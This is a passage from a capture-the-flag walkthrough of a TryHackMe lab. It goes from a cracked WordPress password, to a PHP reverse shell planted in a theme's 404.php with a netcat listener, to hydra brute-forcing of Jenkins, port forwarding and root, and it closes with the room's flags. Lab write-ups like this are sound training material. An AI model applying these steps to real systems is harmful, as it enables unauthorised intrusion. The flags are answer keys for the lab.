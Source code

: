 password found : my2boys
let's enter to admin Dashboard and install a php reverse shell
go to theme > themes editor > 404.php > paste you php reverse shell and save
start a listening using netcat
command used : nc -nlvp "port you are selected in reverse shell"
run in your browser : http://Your_IP_Machine/blog/wp-content/themes/twentyseventeen/404.php

and we get a shell but with www-data user permissions

kali@kali:~/CTFs/tryhackme/Internal$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [Your_IP] from (UNKNOWN) [Your_IP_Traget] 53194
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:41:43 up 9 min,  0 users,  load average: 0.59, 0.52, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1071): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/$
let's show user we have in home directory
command used : ls /home
we have : aubreanna user

when i search i find wp-save.txt in opt directory let's show that
oh we have the aubreanna password
let's connect to user aubreanna in ssh
in aubreanna home we find a jenkins.txt
we have an ip adress in local network we need to use port forwarding using metsploit
after using hydra to attack jenkins password
and run simple php reverse shell in command console and we get a sheel
Note : running listening after running the command
ok in /opt directorie we have note.txt
ooohoo root password



user flag : THM{int3rna1_fl4g_1}
root flag : THM{d0ck3r_d3str0y3r}

